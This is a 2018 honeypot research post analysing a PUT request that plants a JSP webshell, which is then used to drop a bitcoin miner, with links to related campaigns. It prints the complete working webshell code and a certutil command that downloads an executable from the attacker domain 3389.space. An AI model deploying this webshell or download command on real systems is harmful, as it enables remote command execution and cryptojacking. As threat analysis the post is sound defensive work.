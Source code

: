 ```yaml
---
title: "Just Try to PUT a Bitcoin Miner"
#author: "Author Name"
description: "Summary of research into malicious PUT request dropping a indexweb4.jsp JSP foothold tool, followed by GET requests using the tool to drop a bitcoin miner."
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-11-18T00:00:00-00:00
draft: false
---
```


Glastopf, the web server honeypot, received a couple generic probe attempts from 27.210.190.226, then immediately received a PUT request for "/indexweb4.jsp/" ([VirusTotal report](https://www.virustotal.com/#/file/4069fc08a2e40321b778b0627a1f9bc6e0d36922882c6aa97111acd93663a42e)).

```jsp
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%>
<%!public static String excuteCmd(String c) 
{
    StringBuilder line = new StringBuilder();
try 
{
    Process pro = Runtime.getRuntime().exec(c);
    BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));
    String temp = null;
    while ((temp = buf.readLine()) != null) 
    {
        line.append(temp+"\\n");
    }
    buf.close();
} 
catch (Exception e) 
{
    line.append(e.getMessage());
}
return line.toString();
}
%>
<%
if("bala123".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd")))
{
    out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");
}
else
{
    out.println(":-)");
}
%>
```

Shortly afterwards, Glastopf registered a request to that JSP file:

```
/indexweb4.jsp?cmd=cmd.exe%20/c%20certutil.exe%20-urlcache%20-split%20-f%20hxxp://3389.space/nw/vm.exe%20c:/windows/inf/sst.exe&pwd=bala123
```

This would [abuse certutil.exe](https://isc.sans.edu/forums/diary/A+Suspicious+Use+of+certutilexe/23517/) to download an arbitrary file, in this case [vm.exe](https://www.virustotal.com/#/file/aae9e8d1ad38d6b0a5b1641004854cf20e4ff425b2aa5a182f8f66f27b746e95) from 3389.space.  Certutil is a Windows utility designed to help manage certificates, but it's great at downloading files in a proxy-aware way.  Virus Total reports that vm.exe is a bitcoin miner.

Back in May, [@sec\_chick reported](https://twitter.com/one_chick_sec/status/1001494150720581632) this behavior.  At that time, @sec\_chick reports that it was downloading a different EXE, [another bitcoin minter](https://www.virustotal.com/#/file/ed987ec9122a76f7eae969197717b59774836d32e91bb27902e4f665c9c91aea).

Sites that seem to have been infected (search `776 indexweb4.jsp`):

* hxxp://www.tongshengdianli.com/
* hxxp://74.208.15.120/
* hxxp://221.10.166.177/
* hxxp://114.255.185.211/

74.208.15.120 is in rough shape.  Someone who has used this same tool to exploit it has dropped a [webshell](hxxps://github.com/xl7dev/WebShell/blob/master/Aspx/hec.aspx) in there in the top directory, along with a couple of pieces of malware titled [pr.exe](https://www.virustotal.com/#/file/e8d2a3eefb3739a59b0ea040badb413ac00b2392b7814b520e3fcc12a42cecab/detection) and [cmd.exe](https://www.virustotal.com/#/file/52050870ab2816934503d5982239f1fa7fa3e106a906f4c375837b496d50b32c/detection).

Similarly, 221.10.166.177 has a ton of material dumped there by someone experimenting.  Notably `qdww5004.txt`, which looks to be a webshell or similar, related to `cnhonkerarmy`.  114.255.185.211 has become someone's repository of terrible executables, Chrome warns about it upon visiting.  

Google finds other sites that seem to be affected, or previously affected.  A surprising number redirect to hxxps://www.cjb.net/ now...

3389.space is a domain associated with other malicious campaigns:

* [New Jenkins Campaign Hides Malware, Kills Competing Crypto-Miners](https://www.f5.com/labs/articles/threat-intelligence/new-jenkins-campaign-hides-malware--kills-competing-crypto-miner")
* [Talos report related to 3389.space, similar to the above, but slightly broader](https://blog.talosintelligence.com/2018/08/rocke-champion-of-monero-miners.html)
* [A report on ss.exe, served from the domain](https://www.joesandbox.com/analysis/58636/0/executive)

Other reports of similar "indexweb4.jsp" abuse:

* https://www.abuseipdb.com/check/112.226.252.84
* https://k-anz.hatenablog.com/entry/2018/07/15/102648 - someone who ended up writing a very similar article, back in September
